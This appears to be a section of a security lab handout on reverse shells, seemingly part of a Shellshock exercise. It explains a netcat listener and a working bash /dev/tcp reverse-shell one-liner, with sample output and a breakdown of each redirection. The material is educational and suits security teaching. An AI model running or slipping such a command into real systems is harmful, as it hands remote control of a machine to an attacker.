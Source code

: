 ## 9 Guidelines on Reverse Shell

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network connection.  

A commonly used program by attackers is netcat, which, if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus only on the first line). 

```
Attacker(10.0.2.6):$ nc -nv -l 9090 <- **Waiting for reverse shell**
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$ <- **Reverse shell from 10.0.2.5.**
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet **10.0.2.5** netmask 255.255.255.0 broadcast 10.0.2.
        ...
```

The above nc command will block, waiting for a connection. We now directly run the following bash program on the Server machine (_10.0.2.5_) to emulate what attackers would run after compromising the server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating that the shell is running on the Server machine; we can type the ifconfig command to verify that the IP address is indeed 10.0.2.5, the one belonging to the Server machine. Here is the bash command: 

`Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1`

The above command represents the one that would normally be executed on a compromised server. It is quite complicated, and we give a detailed explanation in the following: 

- "/bin/bash -i": The option i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt) .

- "> /dev/tcp/10.0.2.6/9090": This causes the output device (stdout) of the shell to be redirected to the TCP connection to 10.0.2.6’s port 9090. In Unix systems, stdout’s file descriptor is 1. 

- "0<&1": File descriptor 0 represents the standard input device (stdin). This option tells the system to use the standard output device as the stardard input device. Since stdout is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection. 

- ""2>&1": File descriptor 2 represents the standard error stderr. This causes the error output to be redirected to stdout, which is the TCP connection.


In summary, the command "_/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1_" starts a bash shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection. In our experiment, when the bash shell command is executed on _10.0.2.5_, it connects back to the netcat process started on _10.0.2.6_. This is confirmed via the "Connection from _10.0.2.5_ ..." message displayed by netcat. 
